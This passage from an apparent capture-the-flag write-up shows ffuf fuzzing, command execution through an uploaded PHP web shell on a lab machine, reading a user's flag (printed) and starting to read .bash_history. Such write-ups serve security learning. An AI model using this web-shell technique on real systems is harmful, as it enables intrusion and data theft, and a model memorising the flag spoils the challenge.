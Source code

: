   .htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 3018ms]
  .htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 4024ms]
  .hta                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 4025ms]
  shell                   [Status: 200, Size: 18, Words: 1, Lines: 2, Duration: 177ms]
  ```
  
- Since shell was actually uploaded, I started fuzzing for command injection.

  ```
  ffuf -u http://10.10.151.54/cvs/shell.pdf.php?FUZZ=id -w /usr/share/wordlists/dirb/common.txt -fw 1

  cmd                     [Status: 200, Size: 72, Words: 3, Lines: 3, Duration: 50ms]
  ```

- Confirming command injection:

  ```
  http://10.10.151.54/cvs/shell.pdf.php?cmd=id

  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  
  boom!
  ```

---

## 🧍 User Privilege Escalation

- You can read the first flag on the web app.

  ```
  http://10.10.151.54/cvs/shell.pdf.php?cmd=ls%20-al%20/home/lachlan

  total 36
  drwxr-xr-x 4 lachlan lachlan 4096 May  5  2022 .
  drwxr-xr-x 3 root    root    4096 May  5  2022 ..
  -rw-r--r-- 1 lachlan lachlan  168 May  5  2022 .bash_history
  -rw-r--r-- 1 lachlan lachlan  220 Feb 25  2020 .bash_logout
  -rw-r--r-- 1 lachlan lachlan 3771 Feb 25  2020 .bashrc
  drwx------ 2 lachlan lachlan 4096 May  5  2022 .cache
  -rw-r--r-- 1 lachlan lachlan  807 Feb 25  2020 .profile
  drwxr-xr-x 2 lachlan lachlan 4096 May  5  2022 bin
  -rw-r--r-- 1 lachlan lachlan   38 May  5  2022 user.txt
  
  boom!
  
  http://10.10.151.54/cvs/shell.pdf.php?cmd=cat%20/home/lachlan/user.txt
  
  thm{af7e46b68081d4025c5ce10851430617}
  
  boom!
  ```
  
- Let's get root now.

---

## 👑 Root Privilege Escalation

- Now, I checked `.bash_history` file:

  ```
  http://10.10.151.54/cvs/shell.pdf.php?cmd=cat%20/home/lachlan/.bash_history
